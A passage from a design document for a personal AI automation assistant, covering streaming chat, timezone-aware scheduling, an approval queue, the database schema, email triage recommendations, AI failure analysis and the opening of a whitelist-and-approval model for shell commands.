        Backend->>Frontend: data: {"type": "ping"}
        Note over Frontend: Update last_message_time<br/>Don't render
    end
    
    loop LLM streaming
        LLM->>Backend: Token chunk
        Backend->>Frontend: data: {"type": "content", "delta": "..."}
        Note over Frontend: Render token<br/>Update last_message_time
    end
    
    alt Stream completes
        Backend->>Backend: Cancel heartbeat task
        Backend->>Frontend: data: {"type": "done", "activity_id": 123}
        Frontend->>Frontend: Close connection
    else LLM error
        Backend->>Backend: Cancel heartbeat task
        Backend->>Frontend: data: {"type": "error", "message": "..."}
        Frontend->>Frontend: Display error, close connection
    else Network timeout (>30s no message)
        Frontend->>Frontend: Detect timeout (now - last_message_time > 30s)
        Frontend->>Frontend: Close connection, show "Connection timeout"
    end
```

**Why Structured Heartbeat (Not Empty String)**:

1. **Type safety**: Frontend can parse all messages uniformly as JSON
2. **Future extensibility**: Can add `"server_time"` or `"queue_depth"` to ping
3. **Debugging**: Distinguish heartbeat from malformed content messages
4. **Consistency**: All SSE messages follow same `{"type": "..."}` pattern

**No Conflict with FR-4.11**:

FR-4.11 states "no intermediate chunks in database". Heartbeat messages:
- Are NOT content chunks (they're connection health checks)
- Never get stored in `activities` table
- Exist only in memory during streaming
- Are immediately discarded by frontend

Content chunks (`{"type": "content"}`) are assembled in memory and only the final complete response is stored to `activities.llm_response`.

**Key Design Decisions**:

1. **No sequence numbers**: Reconnection starts fresh stream, no resume needed
   - **Rationale**: For MVP, simplicity > partial replay. Most responses complete in 5-10s.
   - **Trade-off**: Retries duplicate LLM cost, but rare for typical network stability

2. **Store only final response**: No intermediate chunks in database (FR-4.11)
   - **Rationale**: Reduces write amplification (1 write vs N chunk writes)
   - **Trade-off**: Can't resume interrupted streams, but see rationale above

3. **SSE over raw chunked transfer**:
   - **Rationale**: SSE provides structured message format with browser-native EventSource fallback
   - **Trade-off**: Slightly more verbose ("data: " prefix), but better client compatibility

4. **POST over GET**: Chat is state-changing (creates activity)
   - **Rationale**: Semantically correct, prevents unintended replays from browser prefetch
   - **Note**: Use fetch API instead of EventSource (which only supports GET)

**Future Enhancements** (v1.1+):
- WebSocket upgrade for resume support if user reports frequent disconnects
- Binary streaming for large file transfers
- Multi-modal responses (images, charts) via data URIs in SSE

**Performance Characteristics**:
- **First token latency**: <500ms (NFR-1.1)
- **Chunk size**: 5-20 tokens (balance between responsiveness and overhead)
- **Connection timeout**: 60s idle (configurable)
- **Max response time**: 5min (then timeout with partial response)

---

### 6.3 UI/UX Design Considerations

#### Chat Interface
**Goal**: Natural conversation with context awareness

**Design Principles**:
- Streaming responses via HTTP chunked transfer (show token-by-token to indicate progress)
- Message history loads from database (persist across sessions)
- Activity tree visualization for "what triggered this" exploration
- Clear distinction between user messages and AI responses
- Connection loss handling with retry button (no automatic resume for MVP)
- File upload support (future: attach documents for analysis)

**User Flows**:
1. User asks question → AI queries activity history → provides context-aware answer
2. User requests task → AI confirms → creates activity → streams execution progress
3. User explores results → clicks activity → sees full tree of related actions

#### Schedule Builder UI
**Goal**: Easy scheduling without cron knowledge

**Design Principles**:
- Weekly grid view (Mon-Sun with time slots)
- Two modes: Simple form (dropdowns) vs Advanced (direct cron input)
- Real-time validation with preview of next 3 runs
- Drag-and-drop for rescheduling (future enhancement)
- Color-coding for enabled/disabled slots
- Timezone-aware display (show times in user's local timezone)

**Timezone Handling**:

**Storage Strategy**:
- `cron_expression` field: Stored in **UTC** (e.g., "0 17 * * *" for 9:00 AM Pacific)
- `timezone` field: Stores user's timezone in **IANA format** (e.g., "America/Los_Angeles", "Europe/London")
- Rationale: UTC storage ensures consistency across DST transitions and server relocations

**Timezone Detection**:
1. **Default Timezone**: Auto-detect from user's system on first use
   - **Backend**: Use `tzlocal` library (`tzlocal.get_localzone_name()`) for server-side detection
   - **Frontend**: Use JavaScript `Intl.DateTimeFormat().resolvedOptions().timeZone` for browser-side detection
2. **Per-Schedule Override**: Each schedule can specify its own timezone (defaults to user's detected timezone)
3. **Configuration**: User can change default timezone in settings (persisted to user preferences)

**UI Components**:
1. **Timezone Selector**:
   - Dropdown with common timezones (pre-populated with user's current timezone)
   - Search/filter capability for finding specific timezones
   - Display timezone name + current UTC offset (e.g., "America/Los_Angeles (UTC-8)")
   - Show "(Current Timezone)" indicator for user's detected timezone

2. **Schedule Time Display**:
   - Always display times in the **selected schedule's timezone**
   - Show "Next 3 Runs" in schedule's timezone with DST-aware dates:
     - "Monday, Jan 27 at 9:00 AM PST"
     - "Tuesday, Jan 28 at 9:00 AM PST"
     - "Wednesday, Jan 29 at 9:00 AM PST"
   - If viewing schedule from different timezone, show tooltip with user's local time: "(2:00 PM in your timezone)"

3. **Cron Expression Conversion**:
   - When user selects "9:00 AM" in "America/Los_Angeles" timezone:
     - Convert to UTC (17:00 UTC)
     - Store cron_expression as "0 17 * * *"
     - Store timezone as "America/Los_Angeles"
   - When displaying schedule:
     - Read cron_expression ("0 17 * * *") and timezone ("America/Los_Angeles")
     - Convert UTC time to schedule's timezone (9:00 AM)
     - Display "Every day at 9:00 AM PST"

**DST (Daylight Saving Time) Handling**:
- Automatic DST transitions handled by timezone-aware conversion
- Schedule "9:00 AM Pacific" maintains wall-clock time:
  - Before DST: 9:00 AM PST (UTC-8) = 17:00 UTC
  - After DST: 9:00 AM PDT (UTC-7) = 16:00 UTC
- Backend uses `pytz` or `zoneinfo` (Python 3.9+) for accurate conversions
- Frontend uses `Intl.DateTimeFormat` with `timeZone` option
- Next run preview reflects upcoming DST changes in displayed times

**Advanced Mode**:
- Direct cron expression input still available
- Must specify timezone for interpretation (default: user's timezone)
- Validation converts to UTC and displays interpreted times for verification
- Warning if cron expression specifies time that doesn't exist during DST transition (e.g., 2:30 AM on spring forward)

**User Flows**:
1. User clicks empty slot → selects automation → chooses time → selects timezone (defaults to auto-detected) → saves → cron stored in UTC
2. User edits existing slot → updates time/timezone → validates → saves → backend recalculates UTC cron expression
3. User views schedule → sees next week's planned tasks in each schedule's timezone → tooltip shows time in user's timezone if different
4. User travels to different timezone → all schedules still display in their configured timezone (not user's current location) unless user changes schedule settings

#### Automation Management UI
**Goal**: Iterative prompt engineering workflow

**Design Principles**:
- List view with version history (show latest + prior versions)
- Side-by-side diff for version comparison
- Inline evaluation scores (color-coded: red < 0.6, yellow 0.6-0.8, green > 0.8)
- One-click test execution
- Guided instruction editor (hints for effective prompts)

**User Flows**:
1. User notices poor performance → views evaluation scores → identifies weak areas
2. User edits instruction → adds clarification → saves as new version
3. User runs evaluations → sees improved scores → promotes version to production
4. User rolls back if new version performs worse

#### Evaluation & Test Case UI
**Goal**: Systematic quality assurance

**Design Principles**:
- Test case creation wizard (guides through type selection)
- Rubric builder with category weights
- Results dashboard with time-series charts
- Drill-down to individual test execution details
- Regression alerts (flag when scores drop)

#### Approval Queue UI
**Goal**: Review and approve/deny pending actions with full execution transparency

**Design Principles**:
- Centralized queue showing all PENDING_APPROVAL activities
- Rich context display (automation name, operation type, affected resources)
- **Command execution details**: Show canonical path, arguments, working directory, and environment for shell commands
- Bulk approve/deny for multiple items
- Filter by approval type (email delete, shell command, etc.)
- Sort by request time (oldest first)

**User Flows**:
1. User opens approval queue in morning → sees overnight automation requests
2. User reviews email delete request → sees list of affected emails → approves
3. User bulk approves 5 similar archive operations → all execute immediately
4. User denies suspicious shell command → adds reason → activity marked DENIED

**User Flows**:
1. User creates test case → chooses type → defines input/expected output → saves
2. User runs evaluation suite → monitors progress → reviews results
3. User sees regression alert → investigates failed test → updates instruction
4. User creates rubric → defines categories → sets scoring guides → links to test cases

#### Accessibility Considerations
- Keyboard navigation for all interfaces
- Screen reader support for activity trees
- High-contrast mode for evaluation scores
- Clear loading states for streaming responses

#### Mobile Responsiveness (Future)
- Chat interface optimized for small screens
- Quick actions via swipe gestures
- Read-only schedule view
- Push notifications for task completion

---

### 6.4 Data Model Changes

#### New Tables

**1. activities**
- Purpose: Unified log of messages and task executions
- Schema: id (UUID PK), type (enum), status (enum), user_input, ai_response, metadata (JSON), approval_action (JSON), approval_action_hash (VARCHAR(64)), automation_id (FK nullable), automation_version (int nullable), replaced_by (FK), approval_requested_at (timestamp), approval_decided_at (timestamp), approval_decision (text), approved_by (text), cancelled_at (timestamp nullable), cancelled_by (text nullable), cancellation_reason (text nullable), timestamps
- Status enum: PENDING, IN_PROGRESS, COMPLETED, FAILED, PENDING_APPROVAL, DENIED, CANCELLED, MISSED
- Indexes: (type, status), (created_at DESC), (replaced_by), (status, approval_requested_at) for approval queue queries, (automation_id, automation_version) for version audit
- Approval Integrity: approval_action stores action details (tool name, parameters, affected resources), approval_action_hash stores SHA256 of canonical JSON for tamper detection
- Version Tracking: automation_id references automations.id, automation_version denormalized for easier queries (avoids JOIN). Both NULL for chat messages, populated for automation executions
- Cancellation Tracking: cancelled_at, cancelled_by, and cancellation_reason track user-initiated cancellations
- Growth: ~100-500 records/day depending on usage

**2. activity_closure**
- Purpose: Hierarchical relationships between activities
- Schema: ancestor_id (FK), descendant_id (FK), depth (int)
- Primary Key: (ancestor_id, descendant_id)
- Indexes: ancestor_id, descendant_id
- Growth: ~3-10x activities table size (transitive closure)

**3. activities_fts**
- Purpose: Full-text search across activity content
- Type: SQLite FTS5 virtual table with external content
- Schema: id, type, full_text (concatenated user_input + ai_response + automation_name + result), updated_at UNINDEXED, archived (bool)
- Configuration: content='' (external content table), content_rowid='id' (points to activities.id)
- Sync: Automatic via triggers on activities table
- Performance: <2s queries on 50k+ records, BM25 relevance ranking enabled, ~40% faster writes vs. standard FTS5
- Storage: Indexes only (no content duplication), ~90% smaller than standard FTS5 table
- Note: Search queries require join to activities table for content retrieval (adds ~1ms per query)

**4. schedules**
- Purpose: Cron-based automation scheduling
- Schema: id (PK), cron_expression (text), duration_minutes (int), automation_id (FK), enabled (bool), timezone (text, IANA format), alert_threshold (int, nullable), alert_severity (VARCHAR, nullable), alert_channels (JSON array, nullable), consecutive_misses (int, default: 0), timestamps
- Indexes: (enabled), (automation_id), (consecutive_misses) for alert monitoring
- Growth: ~5-20 records (relatively static)
- Notes: 
  - cron_expression stored in UTC, timezone field stores user's timezone (e.g., "America/Los_Angeles") for display purposes
  - alert_threshold/severity/channels default to config values if NULL (per-schedule override)
  - consecutive_misses counter reset to 0 on successful execution, incremented on MISSED status
  - alert_channels JSON format: ["in_app", "push", "webhook"] (subset of available channels)

**5. notifications**
- Purpose: Persistent in-app notifications with multi-channel delivery tracking
- Schema: id (PK), type (VARCHAR - 'schedule_missed', 'tool_error', 'system'), severity (VARCHAR - 'INFO', 'WARNING', 'CRITICAL'), title (text), message (text), related_schedule_id (FK nullable), related_activity_id (FK nullable), metadata (JSON), channels_sent (JSON array), channels_failed (JSON array), acknowledged (bool, default: false), acknowledged_at (timestamp nullable), created_at, updated_at
- Indexes: (acknowledged, severity, created_at DESC) for inbox queries, (related_schedule_id), (type)
- Growth: ~10-50 records/day depending on automation health
- Notes:
  - channels_sent: List of successfully delivered channels (e.g., ["in_app", "push"])
  - channels_failed: List of failed delivery attempts (e.g., ["webhook"] with error in metadata)
  - Auto-archive logic: INFO notifications older than config.auto_dismiss_after_days are marked acknowledged=true
  - metadata JSON stores channel-specific details (e.g., webhook_message_id, push subscription endpoint, webhook_response)

**6. automations**
- Purpose: Versioned automation instructions with per-automation LLM selection
- Schema: id (PK), name (text), version (int), instruction (text), llm_provider (VARCHAR), llm_model (VARCHAR), max_execution_time_minutes (int, default 5), active (bool), replaced_by_id (FK), replaced_at (timestamp nullable), tools_available (JSON array), timestamps
- Constraints: UNIQUE(name) WHERE active = 1 (ensures only one active version per automation name)
- Indexes: (name, version DESC), (replaced_by_id), (active), (llm_provider)
- Growth: ~1-5 new versions per automation per month
- Notes: 
  - llm_provider and llm_model allow per-automation model selection (e.g., "ollama", "openai"); defaults to config.llm.default_provider if not set
  - max_execution_time_minutes: Timeout for automation execution (range: 1-60 minutes, default: 5)
  - active flag is UI metadata for "current recommended version" - used for dropdown pre-selection, "Run Now" quick actions, and bulk schedule upgrades
  - Schedules reference automations.id (specific version) - changing active flag does not affect existing schedule bindings
  - replaced_at tracks when version was superseded (set when creating new version with same name)

**7. evaluation_test_cases**
- Purpose: Test cases for automation quality assurance
- Schema: id (PK), automation_id (FK), name, input, expected_output, evaluation_type (enum), rubric_id (FK), metadata (JSON), enabled (bool), timestamps
- Indexes: (automation_id, enabled), (evaluation_type)
- Growth: ~5-15 test cases per automation

**8. evaluation_rubrics**
- Purpose: Scoring criteria for AI judge evaluations
- Schema: id (PK), name, description, categories (JSON array with weights), timestamps
- Growth: ~3-10 rubrics total (reused across test cases)

**9. automation_evaluations**
- Purpose: Results of test case executions
- Schema: id (PK), automation_id (FK), test_case_id (FK), activity_id (FK), evaluation_type (enum), score (float), raw_scores (JSON), output, feedback, passed (bool), evaluator, metadata (JSON), created_at
- Indexes: 
  - (automation_id, created_at DESC)
  - (test_case_id)
  - (activity_id)
  - (passed)
  - **Covering index for dashboard**: (automation_id, version, passed, score, evaluated_at) - enables fast VIEW aggregation
- Growth: ~50-200 records/day during active testing

#### Views

**automation_evaluation_summary** (for dashboard performance):

**View Definition**:
Aggregates automation_evaluations table grouped by automation_id and version:
- SELECT: automation_id, version, total_tests (COUNT), passed_tests (SUM of passed=1), avg_score (AVG of score), last_evaluation_at (MAX of evaluated_at)
- GROUP BY: automation_id, version

**Supporting Index** (covering index for fast aggregation):
Index `idx_eval_dashboard` on automation_evaluations table:
- Columns: (automation_id, version, passed, score, evaluated_at)
- Purpose: Allows index-only scan without table lookups

**Design Decision**: Using VIEW instead of materialized table for simplicity:
- **Pros**: Always accurate, no sync logic, simpler maintenance, less storage
- **Performance**: Covering index makes aggregation fast (<50ms for 50k records)
- **Single-user system**: Dashboard not under heavy concurrent load
- **Future**: If dashboard queries exceed 200ms, materialize in v1.1+

#### Relationships

**Foreign Key Relationships**:
- schedules.automation_id references automations.id (explicit version binding - changing active flag does not update schedules)
- automations.replaced_by_id references automations.id (self-referential for versioning)
- evaluation_test_cases.automation_id references automations.id
- evaluation_test_cases.rubric_id references evaluation_rubrics.id
- automation_evaluations.automation_id references automations.id
- automation_evaluations.test_case_id references evaluation_test_cases.id
- automation_evaluations.activity_id references activities.id
- activities.automation_id references automations.id (nullable - NULL for chat, populated for automation executions)
- activities.replaced_by references activities.id (self-referential for corrections)
- activity_closure.ancestor_id references activities.id
- activity_closure.descendant_id references activities.id
- notifications.related_schedule_id references schedules.id (nullable)
- notifications.related_activity_id references activities.id (nullable)

#### Database Triggers

**FTS Sync Triggers** (External Content Pattern):
- ON INSERT activities → INSERT into activities_fts (content_rowid + index data only, not full text)
- ON UPDATE activities (user_input, ai_response) → DELETE + INSERT into activities_fts (rebuild index)
- ON UPDATE activities (replaced_by) → UPDATE activities_fts SET archived=1
- ON DELETE activities → DELETE from activities_fts (CASCADE)
- Note: External content configuration reduces trigger write volume by ~90% compared to standard FTS5

**Closure Table Triggers**:
- ON INSERT activities → INSERT self-reference (depth=0)
- ON CREATE child activity → INSERT transitive closure entries
- ON DELETE activities → DELETE from activity_closure WHERE ancestor_id = OLD.id OR descendant_id = OLD.id (CASCADE)

**Cascade Delete Behavior**:
- Deleting an activity automatically removes:
  - All FTS index entries for that activity
  - All closure table relationships (as ancestor or descendant)
  - Child activities are preserved but become orphaned (parent_id reference remains for audit)
- Foreign key constraints use ON DELETE SET NULL for parent_id references

#### Email Recommendation Workflow

This section defines the recommendation-based approach for email automation, where AI suggests actions rather than executing them directly.

**Design Philosophy**: AI assists with email triage through intelligent recommendations, not autonomous actions. User maintains full control and builds trust through transparent decision patterns.

**Recommendation Generation**:


```mermaid
sequenceDiagram
    participant Sched as Schedule
    participant AI as AI Agent
    participant Email as Gmail Tool
    participant DB as Database
    participant UI as Approval Queue UI
    
    Note over Sched,UI: Email Triage Automation Runs
    Sched->>AI: Trigger "Daily Email Triage"
    AI->>Email: fetch_unread(max=50)
    Email-->>AI: 50 unread emails
    
    loop For each email
        AI->>AI: Analyze content + metadata
        AI->>AI: Generate recommendations:<br/>- Summary<br/>- Labels<br/>- Is duplicate?<br/>- Is spam?
        AI->>AI: Calculate confidence (0-100)
        
        alt Confidence >= threshold
            AI->>DB: INSERT activity<br/>status=PENDING_APPROVAL<br/>approval_action={<br/>  type: "email_recommendation",<br/>  email_id: "...",<br/>  recommendations: [...]<br/>}
        else Low confidence
            AI->>AI: Skip (log low confidence)
        end
    end
    
    AI->>DB: Group similar recommendations<br/>(e.g., 15 newsletters → 1 batch)
    
    Note over Sched,UI: User Reviews Queue
    UI->>DB: SELECT WHERE status=PENDING_APPROVAL<br/>AND type='email_recommendation'
    DB-->>UI: Pending recommendations
    UI->>UI: Display grouped by type
    UI->>UI: User reviews + approves/denies
    UI->>DB: UPDATE approved items<br/>status=APPROVED
    
    Note over Sched,UI: Execution Phase
    UI->>Email: execute_recommendations(approved)
    Email->>Email: Apply labels
    Email->>Email: Archive emails
    Email->>Email: Mark spam
    Email-->>DB: Log results in child activities
```

**Recommendation Structure**:

Each email recommendation contains:

```json
{
  "email_id": "msg_abc123",
  "subject": "Weekly Newsletter: AI Updates",
  "from": "newsletter@aiweekly.com",
  "date": "2026-01-24T08:30:00Z",
  "recommendations": [
    {
      "type": "summary",
      "content": "Weekly roundup of AI news including GPT-5 announcement, new open source models, and industry trends.",
      "confidence": 92
    },
    {
      "type": "labels",
      "labels": ["newsletters", "ai", "weekly-digest"],
      "confidence": 88
    },
    {
      "type": "duplicate",
      "is_duplicate": false,
      "similar_emails": [],
      "confidence": 95
    },
    {
      "type": "spam",
      "is_spam": false,
      "reasons": ["Known sender", "Subscribed", "Consistent pattern"],
      "confidence": 97
    },
    {
      "type": "action",
      "action": "archive_and_label",
      "reasoning": "Newsletter already read, apply labels for future search",
      "confidence": 85
    }
  ]
}
```

**Batch Grouping**:

Similar recommendations are automatically grouped for efficient review:

| Batch Type | Criteria | Example |
|------------|----------|---------|
| **Newsletters** | Same domain + similar subject pattern | 15 emails from "newsletter@*.com" → "Apply 'newsletters' label" |
| **Duplicates** | Identical or near-identical content | 3 identical promotional emails → "Mark as duplicate, keep newest" |
| **Spam Pattern** | Same spam signature | 8 emails with similar spam characteristics → "Mark as spam" |
| **Same Label** | Same recommended label | 12 emails about "project-alpha" → "Apply 'project-alpha' label" |

**Approval Queue UI for Email**:

```
┌─────────────────────────────────────────────────────────────┐
│ Email Recommendations (42 pending)                          │
├─────────────────────────────────────────────────────────────┤
│ 📧 Newsletters (15 emails)                           [Expand]│
│    Apply 'newsletters' label and archive                    │
│    Confidence: 88% avg                                      │
│    [Approve All]  [Review Individually]  [Deny All]        │
│                                                             │
│ 🗑️  Spam Detection (8 emails)                        [Expand]│
│    Mark as spam and move to trash                          │
│    Confidence: 94% avg                                      │
│    [Approve All]  [Review Individually]  [Deny All]        │
│                                                             │
│ 🏷️  Project Labels (12 emails)                      [Expand]│
│    Apply 'project-alpha' label                              │
│    Confidence: 82% avg                                      │
│    [Approve All]  [Review Individually]  [Deny All]        │
│                                                             │
│ 📎 Duplicates (3 emails)                             [Expand]│
│    Mark as duplicate, keep most recent                     │
│    Confidence: 96% avg                                      │
│    [Approve All]  [Review Individually]  [Deny All]        │
│                                                             │
│ ⚡ Individual Recommendations (4 emails)              [View] │
│    Mixed actions requiring individual review                │
└─────────────────────────────────────────────────────────────┘
```

**Benefits of Recommendation Approach**:

✅ **Zero risk of AI mistakes**: AI cannot modify inbox, only suggest
✅ **No undo complexity**: Wrong recommendations are simply denied, not executed
✅ **Trust building**: User sees AI reasoning, learns patterns
✅ **Efficient review**: Batch operations handle 20+ emails in seconds
✅ **Learning dataset**: Approved/denied decisions improve future recommendations
✅ **Natural rate limiting**: User won't approve excessive actions
✅ **Transparent reasoning**: Each recommendation includes confidence + explanation

**Future Enhancements** (v1.1+):

- **Auto-approve rules**: "Always apply spam label if confidence >95%"
- **Learning from approvals**: Train model on user's approval patterns
- **Smart batching**: Group by user's historical approval patterns
- **Confidence calibration**: Adjust thresholds based on approval rates

---

#### AI-Powered Failure Analysis

This section defines the automated analysis feature for debugging failed automations and generating suggested instruction improvements.

**Design Philosophy**: Use AI to analyze failure patterns and suggest fixes, but only when services are available. Analysis is advisory, not automatic.

**Feature Overview**:

When an automation fails, users can request AI-powered analysis to:
1. Review the failure context (automation instructions, tool calls, error messages)
2. Identify root cause (configuration issue, logic error, external API failure, etc.)
3. Generate specific suggestions for improving automation instructions
4. Optionally create a new automation version with suggested changes

**Analysis Workflow**:


```mermaid
sequenceDiagram
    participant User
    participant UI as Activity Details UI
    participant API as Failure Analysis API
    participant LLM as LLM Service
    participant DB as Database
    
    User->>UI: Views FAILED activity
    UI->>UI: Show "Analyze Failure" button
    User->>UI: Click "Analyze Failure"
    
    UI->>API: POST /api/v1/activities/{id}/analyze-failure
    API->>DB: Load FAILED activity + context
    
    alt Required services available (LLM, tools)
        API->>LLM: Generate analysis prompt:<br/>- Automation instruction<br/>- Tool execution log<br/>- Error messages<br/>- Activity metadata
        LLM-->>API: Analysis response:<br/>- Root cause<br/>- Suggested fixes<br/>- Confidence level
        
        API->>DB: Store analysis in activity metadata
        API-->>UI: Analysis result
        UI->>UI: Display analysis + suggestions
        
        User->>UI: Reviews suggestions
        alt User accepts suggestion
            User->>UI: Click "Apply Fix"
            UI->>API: POST /automations/{id}/new-version<br/>{instruction: <updated>}
            API->>DB: Create new automation version
            API-->>UI: New version created
        else User modifies manually
            User->>UI: Edit instruction in UI
            User->>UI: Save as new version
        end
    else Services unavailable (network loss, API down)
        API->>DB: Queue analysis job<br/>status='PENDING'
        API-->>UI: "Analysis queued"
        UI->>UI: Show "Analysis pending" badge
        
        Note over API,DB: Background Worker<br/>(runs when services restored)
        API->>API: Retry analysis
        API->>LLM: Generate analysis
        API->>DB: Store result + update status
        API->>UI: Notify user (websocket/polling)
    end
```

**Analysis Prompt Structure**:

The LLM receives a structured prompt with failure context:

```
You are an automation debugging assistant. Analyze the following failed automation and suggest improvements.

AUTOMATION DETAILS:
Name: Daily Backup
Version: 2
Instruction: |
  {automation.instruction}

EXECUTION CONTEXT:
Started: 2026-01-24 10:30:00
Duration: 2m 15s before failure
Trigger: Scheduled (cron: "0 8 * * *")

TOOL EXECUTION LOG:
1. shell_execute("df -h") - COMPLETED (2s)
   Output: Filesystem Size Used Avail Use% Mounted on...
   
2. file_compress("/var/log", "/tmp/logs.tar.gz") - COMPLETED (45s)
   Output: Archive created: 15.2 MB
   
3. s3_upload("/tmp/logs.tar.gz", "backup-bucket") - FAILED (1m 28s)
   Error: ConnectionError: Unable to establish connection to S3 endpoint
   Details: [Errno -3] Temporary failure in name resolution

AUTOMATION METADATA:
- LLM Provider: ollama
- LLM Model: mistral:7b
- Max Execution Time: 5 minutes
- Tools Used: shell, file, s3

ENVIRONMENT CONTEXT:
- Network Status: Offline (detected at failure time)
- Last Successful Run: 2026-01-23 08:00:15
- Consecutive Failures: 1

YOUR TASK:
1. Identify the root cause of the failure
2. Determine if the issue is:
   - Configuration problem (fixable by updating automation)
   - External service unavailable (retry will likely succeed)
   - Logic error in automation instruction
   - Tool credential/permission issue
3. If fixable by automation changes, suggest specific instruction improvements
4. Provide confidence level (0-100) for your diagnosis

OUTPUT FORMAT:
{
  "root_cause": "Brief explanation",
  "category": "network_failure|config_error|logic_error|credential_issue|external_service",
  "fixable_by_automation_update": true|false,
  "suggested_instruction_changes": "Specific changes to automation instruction (or null if not fixable)",
  "additional_recommendations": ["List of other suggestions"],
  "confidence": 85
}
```

**Analysis Response Example**:

```json
{
  "root_cause": "S3 upload failed due to network unavailability. The automation does not handle network failures gracefully.",
  "category": "network_failure",
  "fixable_by_automation_update": true,
  "suggested_instruction_changes": "Add retry logic and network check:\n\n1. Before running backup, use shell tool to check internet connectivity: `ping -c 1 8.8.8.8`\n2. If network unavailable, log warning and skip S3 upload (local archive still created)\n3. Add retry logic: attempt S3 upload up to 3 times with 30s delays\n4. If all retries fail, create activity note to retry manually later\n\nUpdated instruction:\n```\nDaily backup automation with network resilience:\n\n1. Check disk space with 'df -h' and ensure >5GB available\n2. Compress /var/log directory to /tmp/logs.tar.gz\n3. Check network: ping -c 1 8.8.8.8\n4. If network available:\n   - Upload to S3 with 3 retry attempts (30s delay between)\n   - Delete local archive after successful upload\n5. If network unavailable:\n   - Log warning: \"Network unavailable, S3 upload skipped\"\n   - Keep local archive in /tmp for manual upload\n   - Create reminder to check network and retry\n```",
  "additional_recommendations": [
    "Consider using S3 tool's built-in retry mechanism if available",
    "Add notification when backup completes successfully vs. when it's partial",
    "Schedule backup during hours when network is typically stable"
  ],
  "confidence": 90
}
```

**UI Integration**:

**Failed Activity Card** (with analysis button):
```
┌─────────────────────────────────────────────────────────────┐
│ ❌ Daily Backup - FAILED                                     │
├─────────────────────────────────────────────────────────────┤
│ Failed: 2026-01-24 10:32:15                                │
│ Duration: 2m 15s                                            │
│ Error: ConnectionError during s3_upload                     │
│                                                             │
│ [View Details]  [Analyze Failure]  [Retry Now]            │
└─────────────────────────────────────────────────────────────┘
```

**Analysis Results View**:
```
┌─────────────────────────────────────────────────────────────┐
│ Failure Analysis: Daily Backup                              │
│ Confidence: 90%  •  Category: Network Failure               │
├─────────────────────────────────────────────────────────────┤
│ ROOT CAUSE                                                  │
│ S3 upload failed due to network unavailability. The        │
│ automation does not handle network failures gracefully.     │
│                                                             │
│ SUGGESTED FIX                                               │
│ Add retry logic and network check:                         │
│                                                             │
│ 1. Before running backup, check connectivity: ping 8.8.8.8 │
│ 2. If network unavailable, skip S3 (keep local archive)   │
│ 3. Add retry logic: 3 attempts with 30s delays             │
│ 4. If all fail, create reminder to retry manually          │
│                                                             │
│ [View Full Suggested Instruction]                          │
│                                                             │
│ ADDITIONAL RECOMMENDATIONS                                  │
│ • Use S3 tool's built-in retry if available                │
│ • Add success/partial completion notifications             │
│ • Schedule during stable network hours                     │
│                                                             │
│ [Apply Fix]  [Edit Manually]  [Dismiss]                    │
└─────────────────────────────────────────────────────────────┘
```

**Failure Analysis Queue** (for deferred analysis):

When services are unavailable at failure time, analysis jobs are queued:

```
┌─────────────────────────────────────────────────────────────┐
│ Pending Failure Analyses (3 queued)                        │
├─────────────────────────────────────────────────────────────┤
│ ⏳ Daily Backup - Queued 2 hours ago                       │
│    Waiting for: LLM service                                │
│    [Cancel]                                                │
│                                                             │
│ ⏳ Email Triage - Queued 1 hour ago                        │
│    Waiting for: Gmail API                                  │
│    [Cancel]                                                │
│                                                             │
│ ⏳ Server Health Check - Queued 30 min ago                 │
│    Waiting for: Network connectivity                        │
│    [Cancel]                                                │
└─────────────────────────────────────────────────────────────┘
```

**Database Schema**:

Analysis stored in activities.metadata JSON:

```json
{
  "failure_analysis": {
    "requested_at": "2026-01-24T10:35:00Z",
    "completed_at": "2026-01-24T10:35:12Z",
    "status": "completed",  // pending, completed, failed
    "root_cause": "S3 upload failed due to network unavailability...",
    "category": "network_failure",
    "fixable_by_automation_update": true,
    "suggested_instruction_changes": "Add retry logic and network check...",
    "additional_recommendations": [...],
    "confidence": 90,
    "llm_provider": "ollama",
    "llm_model": "mistral:7b",
    "analysis_duration_seconds": 12,
    "tokens_used": 1240
  }
}
```

**Configuration**:

Analysis feature configuration in `llm` config section:

```yaml
llm:
  failure_analysis:
    enabled: true
    auto_analyze_on_failure: false  # Manual trigger only in v1.0
    min_confidence_to_suggest: 70   # Don't show suggestions below this confidence
    max_analysis_time_seconds: 60   # Timeout for analysis LLM call
    queue_when_unavailable: true    # Queue for later vs fail immediately
```

**API Endpoints**:

1. **Request Analysis**: `POST /api/v1/activities/{id}/analyze-failure`
   - Request body: `{}` (empty)
   - Response: Analysis result or queue status

2. **Get Analysis Status**: `GET /api/v1/activities/{id}/failure-analysis`
   - Response: Analysis result from metadata or queue status

3. **Apply Suggested Fix**: `POST /api/v1/automations/{id}/apply-analysis-fix`
   - Request: `{activity_id: "act_123"}` (loads suggestion from activity)
   - Response: New automation version ID

4. **List Queued Analyses**: `GET /api/v1/failure-analyses/queued`
   - Response: Array of pending analysis jobs

5. **Cancel Queued Analysis**: `DELETE /api/v1/failure-analyses/{activity_id}`
   - Response: 204 No Content

**Limitations & Safety**:

1. **No Automatic Application**: Suggestions are advisory only; user must review and apply
2. **Service Dependencies**: Requires LLM and relevant tools to be available
3. **Confidence Threshold**: Low-confidence suggestions flagged as uncertain
4. **External Failures**: Cannot fix actual API outages, only improve error handling
5. **Test Before Production**: Suggests creating test version before updating production schedules

**Future Enhancements** (v1.1+):

- **Pattern Detection**: "This automation has failed 5 times with similar errors"
- **Auto-analyze on N Failures**: Trigger analysis after 3 consecutive failures
- **Comparative Analysis**: Compare successful vs failed runs to identify changes
- **Multi-automation Insights**: "3 automations are failing due to Gmail API rate limits"
- **Learning from Fixes**: Track which suggestions users apply and improve recommendations

---

#### Shell Command Security Model

This section defines the security approach for shell command execution in a single-user technical environment.

**Design Philosophy**: Balance full technical capability with transparency and unintended-consequence prevention, not restrictive lockdown.

**Subprocess Execution Strategy**:


```mermaid
flowchart TD
    A[AI Requests Shell Command] --> B{use_shell enabled?}
    B -->|No Default| C[Parse to executable + args]
    B -->|Yes requires approval| D[Pass raw string to shell]
    
    C --> E[Resolve executable path<br/>e.g., git → /usr/bin/git]
    E --> F{Check Whitelist}
    
    F -->|Whitelisted| G[Execute with subprocess<br/>shell=False]
    F -->|Not whitelisted| H[Create approval request]
    
    D --> I{Check Whitelist}
    I -->|Whitelisted| J[Execute with shell=True<br/>DANGEROUS]
    I -->|Not whitelisted| H
    
    H --> K[Show Approval UI:<br/>- Canonical path<br/>- Full args<br/>- Working directory<br/>- Environment vars]
    K --> L{User Decision}
    L -->|Approve| M[Execute + Log]
    L -->|Deny| N[Mark DENIED + Log]
    
